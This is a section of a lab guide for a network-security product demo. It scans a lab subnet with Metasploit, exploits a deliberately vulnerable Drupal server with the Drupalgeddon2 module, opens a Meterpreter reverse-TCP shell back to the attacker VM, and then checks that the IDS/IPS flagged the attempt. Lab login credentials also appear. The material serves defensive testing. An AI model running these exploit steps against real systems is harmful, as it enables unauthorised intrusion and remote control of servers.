


## 6. Basic Attack Scenario
**Estimated Time to Complete: 30 minutes**

In this exercise, we will use **Metasploit** to launch a simple exploit against the **Drupal** service runnning on the **App1-WEB-TIER VM** and confirm the NSX Distributed IDS/IPS was able to detect this exploit attempt.



**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate port-scan against the DMZ Segment**
1. Type  **sudo msfconsole** to launch **Metasploit**. Follow the below steps to initiate a portscan and discover any running services on the **DMZ** subnet. Hit **enter** between every step. 
    * Type **use auxiliary/scanner/portscan/tcp** to select the portscan module
    * Type **set THREADS 50** 
    * Type **set RHOSTS 192.168.10.0/24** to define the subnets to scan. These should match the **DMZ** Subnet
    * Type **set PORTS 8080,5984** to define the ports to scan (Drupal and CouchDB servers)
    * Type **run**

```console
vmware@ubuntu:~$sudo msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.10.0/24
RHOSTS => 192.168.10.0/24, 192.168.20.0/24
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 8080,5984
PORTS => 8080,5984
msf5 auxiliary(scanner/portscan/tcp) > run
```
2.	You should see the below results when the scan completes
```console
[*] 192.168.10.0/24:      - Scanned  28 of 256 hosts (10% complete)
[*] 192.168.10.0/24:      - Scanned  52 of 256 hosts (20% complete)
[+] 192.168.10.100:       - 192.168.10.100:5984 - TCP OPEN
[+] 192.168.10.100:       - 192.168.10.100:8080 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:5984 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:8080 - TCP OPEN
[*] 192.168.10.0/24:      - Scanned  77 of 256 hosts (30% complete)
[*] 192.168.10.0/24:      - Scanned 103 of 256 hosts (40% complete)
[*] 192.168.10.0/24:      - Scanned 129 of 256 hosts (50% complete)
[*] 192.168.10.0/24:      - Scanned 154 of 256 hosts (60% complete)
[*] 192.168.10.0/24:      - Scanned 180 of 256 hosts (70% complete)
[*] 192.168.10.0/24:      - Scanned 205 of 256 hosts (80% complete)
[*] 192.168.10.0/24:      - Scanned 233 of 256 hosts (91% complete)
[*] 192.168.10.0/24:      - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

> **Note**: To reduce the number of OVAs needed for this PoV, each workload VM deployed runs both a vulnerable **Drupal** and a vulnerable **CouchDB** service

**Initiate DrupalGeddon2 attack against App1-WEB-TIER VM**
In order to launch the **Drupalgeddon2** exploit against the **App1-WEB-TIER VM**, you can either manually configure the **Metasploit** module, or edit and run a pre-defined script. If you want to go with the script option, skip to step #3 and continue from there. 

1. To initiate the attack manually, use the Metasploit console you opened earlier. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit attempt
2. Skip step #3 and #4, and continue with step #5

```console

msf5 auxiliary(scanner/portscan/tcp) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```
3. If you want to go with the script option instead, run **sudo nano attack1.rc** and type **VMware1!** when asked for the password. 
    * Confirm that the **RHOST** line IP address matches with the IP address of **App1-WEB-TIER VM** you saw in the NSX VM Inventory. 
    * Change this IP address if needed. 
    * Save your changes and exit **nano**
4. Type **sudo ./attack1.sh** to initiate the Metasploit script and Drupalgeddon exploit. Next, go to step #6
    
5. Confirm the vulnerable server was sucessfully exploited and a **Meterpreter** reverse TCP session was established from **App1-WEB-TIER VM** back to the **Extermal VM**

```console
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:45032) at 2020-07-20 19:37:29 -0500
```
6. **Optionally**, you can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-WEB-TIER VM**
    * Type **sysinfo** to learn more about the running OS

```console
meterpreter > sysinfo
Computer    : 273e1700c5be
OS          : Linux 273e1700c5be 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter > ?
```
7. When you are done, type **exit -z** to shut down the Meterpreter session
8. Type **exit** to exit Metasploit

**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload

3. Click  **APP-1-WEB-TIER** to open a filtered event view for this workload. 
4. Confirm 2 signatures have fired; one exploit-specific signature for **DrupalGeddon2** and one broad signature indicating the use of a **Remote Code execution via a PHP script**

> **Note**: You can zoom in/out to specific times using the timeline slider, filter the Events view based on Severity by selecting the desired severities or filter based on other criteria such as Attacker Target, Attack Type, CVSS, Product Affected or VM Name by using the **Appl Filter** box.
5. Expand both of the events by clicking the **>** icon on the left side next to severity
6.  For the  **DruppalGeddon2** event:
  *  Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
  *  click **View Intrusion History** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections
  *  this event contains vulnerability details including the **CVSS score** and **CVE ID**. Click the **2018-7600** CVE link to open up the **Mittre** CVE page and learn more about the vulnerability.
7. **Optionally**, you can check the  obove details as well for the secondary event (except for the vulnerability details, which are not applicable to this more general signature)
  
> **Note**: **Product Affected** incicates the service vulnerable to the exploit a signature is detecting. In this case, you should see **Drupal_Server** as being vulnerable to the **DruppalGeddon2** exploit and **Web_server_Applications** being affected by the more generic **Remote Code Execution** attmept. 

> **Note**: **Attack Target** incicates the kind of service being attacked. This could be a client (in case of a client-side exploit), server, etc. In this case, you should see **Web_server** as the attack target for both events. 

8. In the **timeline** above, you can click the dots that represent each event to get summarized information.

You have now successfully completed a simple attack scenario ! 
In the next exercise, we will run through a more advanced scenario, in which will move the attack beyond the initial exploit against the Drupal web-frontend to a database server running on the internal network and then moving laterally once again to another database server beloging to a different application. This is similar to real-world attacks in which bad actors move within the network in order to get to the high value asset/data they are after. The NSX Distributed IDS/IPS and Distributed Firewall are uniquely positioned at te vNIC of every workload to detect and prevent this lateral movement.


Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step: 7. Lateral Movement Scenario***](/docs/7-LateralMovementScenario.md)
